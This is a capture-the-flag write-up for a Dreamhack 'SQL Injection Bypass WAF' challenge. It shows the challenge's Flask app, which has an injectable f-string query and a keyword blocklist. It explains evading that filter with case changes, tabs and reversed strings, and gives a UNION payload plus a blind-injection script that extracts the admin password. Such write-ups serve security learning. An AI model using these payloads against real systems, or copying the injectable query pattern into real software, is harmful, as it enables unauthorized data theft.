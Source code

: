 ```yaml
---
title: sql injection bypass WAF
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, SQL injection]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/415/](https://dreamhack.io/wargame/challenges/415/)

## Description

> This is the problem that you practice in the SQL Injection Bypass WAF.

### Attached

```sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```
{: file="./init.sql" }

```py
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')

```
{: file="./app.py" }

## Analyzation

The ```user``` table has 3 columns: ```idx```, ```uid``` and ```upw```.

```sql
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);
```

And flag is admin's password
```sql
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
```

Our target is to get admin's password.

Check [```check_WAF()```](https://www.cloudflare.com/learning/ddos/glossary/web-application-firewall-waf/) function

```py
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False
```

So the ```keywords``` array is blacklist
```py
if check_WAF(uid):
    return 'your request has been blocked by WAF.'
```

Check ```index()``` function

```py
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template
```

- After the ```uid``` is get by ```GET``` method, it will be checked by ```check_WAF(uid)```.

- Then the server will send query to sql database, and send back result: ```cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")```

- If result exists, the template will show one ```uid``` only (```result[0]``` is ```idx```, ```result[1]``` is ```uid```, ```result[2]``` is ```upw``` ). Else empty string will be displayed.

WAF blocks ```"union"```, ```"select```, but ```"Union"```, ```"Select"``` can be used to bypass the WAF.

If ```"admin"``` is blocked, a function can be used, like ```reverse(\"nimda\")```, or ```concat('admi','n')```, or simply ```"Admin"```.

The WAF only blocks space ```%20```. It does not block tab ```%09```, so it can be used. (See [ascii table](https://www.asciitable.com/)).

## Solution 1: [SQLI UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

Original query
```sql
SELECT * FROM user WHERE uid='{uid}';
```

If we make a payload, as usual
```
'	Union	Select	1,upw,3	From	user	Where	uid='Admin
```

Then the query now will be
```sql
SELECT * FROM user WHERE uid=''	Union	Select	1,upw,3	From	user	Where	uid='Admin';
```

And we get the flag
```
DH{bc818d522986e71f9b10afd732aef9789a6db76d}
```

## Solution 2: Blind sqli by error-based

After getting password, we can check its character, one by one by

```sql
SELECT * FROM user WHERE uid='admin' && if(ascii(substr(upw, 1, 1)) = 124, true, false)#;
```

- If the ```if``` statement is true, the query will return admin, and login successfully.

```py
import requests

URL = "http://host3.dreamhack.games:16703/?uid='||uid%3Dreverse(\"nimda\")%26%26if(ascii(substr(upw%2C{}%2C1))%3D{}%2Ctrue%2Cfalse)%23"

flag = ""

for i in range(1, 50):
    for j in range(32, 129):
        response = requests.get(URL.format(i, j))
        print(chr(j))
        if 'admin' in response.text:
            flag += chr(j)
            print(f"----flag: {flag}")
            if flag[-1] == '}':
                exit()
            break

```

The flag is
```
DH{bc818d522986e71f9b10afd732aef9789a6db76d}
```